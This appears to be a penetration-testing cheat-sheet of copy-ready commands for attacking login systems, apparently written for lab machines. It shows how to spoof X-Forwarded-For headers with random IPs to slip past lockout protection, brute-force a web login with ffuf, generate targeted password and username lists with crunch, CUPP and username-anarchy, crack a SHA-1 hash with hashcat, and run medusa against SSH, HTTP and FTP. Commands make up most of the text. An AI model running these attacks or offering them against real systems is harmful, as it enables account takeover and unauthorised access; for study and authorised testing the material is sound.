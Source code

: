 #auth 
##### Bypass protection
1. Use header
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```
1. IP block may be reset on success login or request counter may be reset
2. Account lock after a number of fail attempts
3. captcha

#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

[[Passwords]]
#### Default passwords:
- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/
https://wiki.skullsecurity.org/index.php?title=Passwords
#### Generate passwords:
`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`
### Username anarchy
```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
./username-anarchy -i user_names.txt > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```

### [[hashcat]]
#### detect hash type
`hashid 8d6e34f987851aa599257d3831a1af040886842f`

#### dict based attack on sha-1
`hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`
#### Medusa
```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
[[FTP]]:
```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```